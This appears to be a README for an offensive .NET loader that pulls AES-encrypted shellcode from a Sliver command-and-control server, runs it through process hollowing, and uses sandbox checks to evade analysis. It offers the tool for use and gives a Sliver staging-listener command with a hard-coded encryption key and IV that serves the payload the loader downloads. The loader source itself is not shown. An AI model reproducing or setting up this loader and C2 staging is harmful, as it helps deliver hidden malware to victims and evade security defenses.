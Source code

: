 # ProcessHollowEncrypted
A .NET assembly that pulls AES encrypted shellcode from Sliver C2 

Compile as DLL or EXE and use how you want. 

## Using with Sliver

On sliver server enter:

    sliver > stage-listener -p https_beacon -u http://example.com:8080 --aes-encrypt-key 'D(G+KbPeShVmYq3t6v9y$B&E)H@McQfF' --aes-encrypt-iv '8y/B?E(G+KbPeShP'

The encryption details must match inside of Program.cs. 


### Credits

* process hollowing implementation - [https://gist.github.com/smgorelik/9a80565d44178771abf1e4da4e2a0e75](https://gist.github.com/smgorelik/9a80565d44178771abf1e4da4e2a0e75)
* bunch of sandbox checks - [https://github.com/Arvanaghi/CheckPlease/tree/master/C%23](https://github.com/Arvanaghi/CheckPlease/tree/master/C%23)
